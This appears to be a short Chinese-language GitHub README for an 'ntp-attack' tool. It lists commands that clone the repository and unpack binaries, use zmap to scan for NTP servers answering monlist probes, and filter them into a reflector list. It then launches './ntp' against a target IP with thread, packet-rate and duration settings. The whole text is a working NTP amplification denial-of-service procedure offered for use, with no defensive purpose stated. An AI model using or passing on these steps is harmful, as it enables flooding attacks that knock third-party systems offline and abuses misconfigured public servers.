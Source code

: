 # ntp-attack

请先安装 zmap unzip git

克隆并解压
`
git clone https://github.com/iamfeiwu/ntp-attack && cd ntp-attack && unzip ntp.zip
`

扫描列表
`
zmap -p 123 -M udp --probe-args=file:ntp_123_monlist.pkt -o 1.txt
`


提权
`
chmod 777 ntp &&
chmod 777 ntpchecker
`

检查列表
`
./ntpchecker 1.txt 2.txt 1 0 1
`

过滤
`
awk '$2>419{print $1}' 2.txt | sort -n | uniq | sort -R > ntplist.txt
`

执行可执行文件
`
./ntp <target IP> <port> <reflection file> <threads> <pps limiter, -1 for no limit> <time>
`
